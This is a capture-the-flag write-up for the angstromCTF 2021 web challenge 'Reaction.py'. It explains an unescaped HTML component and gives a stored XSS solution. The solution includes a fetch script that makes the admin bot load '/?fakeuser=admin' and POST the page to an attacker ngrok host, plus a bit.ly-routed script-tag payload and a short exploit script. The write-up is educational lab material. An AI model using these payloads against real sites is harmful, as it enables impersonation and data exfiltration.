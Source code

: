 # Reaction.py - angstromCTF 2021

- Category: Web
- Points: 150
- Solves: 90
- Solved by: SM_SC2, drw0if, Iregon, raff01

## Description

Jason's created the newest advancement in web development, Reaction.py! A server-side component-based web framework. He created a few demo components that you can find on [his site](https://reactionpy.2021.chall.actf.co/login). If you make a cool enough webpage, you can submit them to the contest and win prizes! [Source](dist/server.py) [Admin bot source](dist/visit.js)

## Overview
We have a "site generator" with which we can add predefined components as logged-in users.

![home](pictures/overview.png)

When we create a component, a POST request is sent to `/newcomp` and the specified component is added to the `/` page through the `add_component` function.

If we press `submit site to contest` button, our page is sent to `/contest` that checks the Google Captcha and open the page inside a `puppeteer` instance through `visit.js`

```python
@app.route("/contest", methods=["POST"])
@mustlogin
def contest_submission(user):
    captcha_response = request.form.get("g-recaptcha-response")
    if not captcha_response:
        return ("Please complete the CAPTCHA", 400)
    secretkey = captcha.get("secretkey")
    if secretkey:
        r = requests.post(
            "https://www.google.com/recaptcha/api/siteverify",
            data={"secret": secretkey, "response": captcha_response},
        ).json()
        if not r["success"]:
            return ("Invalid CAPTCHA", 400)
        subprocess.run(
            ["node", "visit.js", user["username"]],
            # stdout=subprocess.DEVNULL,
            # stderr=subprocess.DEVNULL,
            stdin=subprocess.DEVNULL,
        )
        return PAGE_TEMPLATE.replace(
            "$$BODY$$",
            """<p>The admin should have reviewed your submission. <a href="/">Back to homepage</a></p>""",
        )
```

We can't inject malicious code via username because it accepts only letters, digits and `_`

The site use an in-memory storage. Our data are stored inside `accounts[username]` and the HTML components inside `accounts[username]["bucket"]`.

There is a default "admin" user which has the flag.

```python
accounts = {
    "admin": {
        "username": "admin",
        "pw": admin_password,
        "bucket": [f"<p>{escape(flag)}</p>"],
        "mutex": Lock(),
    }
}
```

As we can see, there is a custom middleware that lets us impersonate whatever user we want. It only needs the `secret` cookie.

```python
def mustlogin(route):
    @wraps(route)
    def ret():
        if request.cookies.get("secret") == admin_password:
            fakeuser = request.args.get("fakeuser")
            if fakeuser:
                return route(user=accounts[fakeuser])
        if "username" not in session or session["username"] not in accounts:
            return redirect("/login", code=302)
        return route(user=accounts[session["username"]])

    return ret
```

The only interesting function is `add_component`.
It adds our components to bucket (max 2). Through the `name` parameter we can choose one of the following components:

### welcome

```python
if name == "welcome":
        if len(bucket) > 0:
            return (ERR, "Welcomes can only go at the start")
        bucket.append(
            """
            <form action="/newcomp" method="POST">
                <input type="text" name="name" placeholder="component name">
                <input type="text" name="cfg" placeholder="component config">
                <input type="submit" value="create component">
            </form>
            <form action="/reset" method="POST">
                <p>warning: resetting components gets rid of this form for some reason</p>
                <input type="submit" value="reset components">
            </form>
            <form action="/contest" method="POST">
                <div class="g-recaptcha" data-sitekey="{}"></div>
                <input type="submit" value="submit site to contest">
            </form>
            <p>Welcome <strong>{}</strong>!</p>
            """.format(
                captcha.get("sitekey"), escape(cfg)
            ).strip()
        )
```

### char_count

```python
elif name == "char_count":
        bucket.append(
            "<p>{}</p>".format(
                escape(
                    f"<strong>{len(cfg)}</strong> characters and <strong>{len(cfg.split())}</strong> words"
                )
            )
        )
```

### text

```python
elif name == "text":
        bucket.append("<p>{}</p>".format(escape(cfg)))
```

### freq

```python
elif name == "freq":
        counts = Counter(cfg)
        (char, freq) = max(counts.items(), key=lambda x: x[1])
        bucket.append(
            "<p>All letters: {}<br>Most frequent: '{}'x{}</p>".format(
                "".join(counts), char, freq
            )
        )
```

In the first three components, our input (`cfg`) is escaped via flask `escape`. In the last one, `cfg` is not, but duplicated characters are eliminated because of `Counter` function.

Looking at `visit.js` code we have the cookie we need. Unfortunately, it can't be stolen through javascript (`httpOnly: true`), neither through CSRF attack (`sameSite: "Strict", domain: 127.0.0.1:8080`).

## Solution

The site is vulnerable to XSS attack. We can't and we don't need to get the cookies. We just need that puppeteer, which has them, makes a request for us as admin and send the response to us. We used `ngrok` as HTTP bin.

```javascript
fetch('/?fakeuser=admin')
	.then(response => response.text())
  	.then(data =>{
		fetch('http://293fb56704d7.ngrok.io/', {
			method : 'post',
			body: data
	})
});
```

Due to the limitations of the `freq` component, we must load our script as an external resource. So we served it through a PHP server (maybe it can be a simple `js` file).

We want to inject

```html
<script src="https://293fb56704d7.ngrok.io"></script>
```

but we have to remove duplicates. So:
1. uppercase script
2. change `https://` to `//`
3. remove double quotes

```html
<SCRIPT src=//293fb56704d7.ngrok.io></script>
```

We can't use double slash, so we HTML encode `&#47;` the second one.

Our URL is too long. After a bit of research, the solution is `bit.ly` which lets us create custom paths and its domain has available characters.

We must close the script tag in order to be executed, so we have to use the second component and comment out everything between the two tags.
We used a single quote instead of comment :sweat_smile:

```html
<SCRIPT src=/&#47;bit.ly\2Q5ZXW1>' [content to comment out] '</SCRIPT>
```

exploit

```python
new_comp('freq', '<SCRIPT src=/&#47;bit.ly\\2Q5ZXW1>\'')
new_comp('freq', '\'</SCRIPT>')
```

Before doing this, we have to reset the page through a POST request to `/reset`. Run `py ./exploit.py`

Now, we have to:
1. open the `/` page through the browser and log in
2. open browser console and execute the following script to recreate the sending form and Google Captcha

```javascript
document.body.innerHTML += '<form action="/contest" method="POST"><div class="g-recaptcha" data-sitekey="6LfbKpgaAAAAAJBO6sFtDLzXUHeZBZaKtNxQB-yr"></div><input type="submit" value="submit site to contest"></form>'

let myScript = document.createElement("script");
myScript.setAttribute("src", "https://www.google.com/recaptcha/api.js");
document.body.appendChild(myScript);
```
3. press `submit site to contest`

And we have the flag to our HTTP bin

![flag](pictures/flag.png)

## Flag
```
actf{two_part_xss_is_double_the_parts_of_one_part_xss}
```